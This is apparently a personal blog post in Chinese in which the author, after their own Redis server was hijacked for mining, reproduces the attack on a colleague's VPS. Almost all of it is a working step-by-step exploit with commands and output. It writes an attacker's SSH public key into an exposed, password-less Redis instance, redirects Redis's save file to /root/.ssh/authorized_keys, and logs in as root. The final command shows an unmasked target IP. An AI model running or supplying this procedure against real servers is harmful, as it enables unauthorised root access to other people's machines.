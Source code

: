 ```yaml
---
title: 使用redis漏洞攻击服务器
date: 2017-08-07 
tags: [redis漏洞, attack]
---
```

由于我的服务器上装了redis，又没有设置密码。所以将6379(redis默认的)端口暴露在公网中，所以被别人恶意当做挖矿机，我也想操作一下别人是怎么攻击我的服务器的

### 准备工作
我借了我同事妹子的VPS，作为攻击的测试机。首先在这台测试机上装redis，安装redis的步骤我已经在前几篇博客中有介绍，这里就不重复说了。
攻击者：107.182.xxx.xxx
被攻击者：45.78.xx.xx

然后我们就可以开始了.
首先我们先尝试连一下45的服务器
```bash
$ ssh root@45.78.xx.xx
```
结果当然是连不上

<!-- more -->

### 通过redis漏洞攻击

```bash
$ ./redis-cli -h 45.78.xx.xx
```
<img src='http://oo8ieb5e5.bkt.clouddn.com/image/vps/attack_redis_connect.png' />

这时我们已经成功连接redis

在当前这台服务器上生成公钥私钥
```bash
$ cd ~/.ssh
$ ssh-keygen -t rsa -C "1239391682@qq.com"
$ cp id_rsa.pub ~/
```
修改id_rsa.pub文件，在文件的开头和末尾添加回车(可以多加几个，我自己第一行加了一个回车，不太好用)
然后将公钥文件写入被攻击主机的redis

```bash
$ cd /usr/redis
$ cat ~/id_rsa.pub | ./redis-cli -h 45.78.xx.xx -x set ssh-key
> OK
```

现在我们重启连接进目标主机的redis
```bash
$ ./redis-cli -h 45.78.xx.xx
$ keys *
1) "ssh-key"
2) "test"
3) "attack"
$ get ssh-key
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAyxRp0P6DTEpz7ACtwYGuFTdCOYW6yUflL4IsIWBa4IsvMQKd5ikx2MMJcacYYz5Xq+amYnPn3w/KDco9EUNlppbf5EQkdtQ8bWbURFUypOeqsr0HQwfesEUbGxCWlHzScGoUt9+sBGiKIKyKrGO99ccDQPnQcBl2JlTljvea8WVBym4rM0+L3ofYb0QVN9gvuZGDCa6wiefcAj81ii6Vv/Hb+YSE+Sl+tNVGBE01WCWmVx+u2oj0NwX2xLlCNt5Cl+6ns0bwu92Qa6mLybV0oWcy+GPFVjth52wFfVG/a2c96lZ/r+M8yik3Rq7yZKUYcw10J8sh0+9pwvXZZlUyqQ== 1239391682@qq.com\n\n\n"
```

公钥已经写入目标主机，接下来，我们使用config命令，分别查看redis写入日志的文件名和目录：
```bash
$ config get dir
1) "dir"
2) "/usr/redis"
$ config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```

然后我们需要重新设置保存路径和日志文件名，并保存redis中的数据
```bash
$ config set dir /root/.ssh
OK
$ config set dbfilename "authorized_keys"
OK
$ save
OK
```

连接被攻击的服务器
```bash
$ ssh -p 26167 root@45.78.34.28
```

成功。
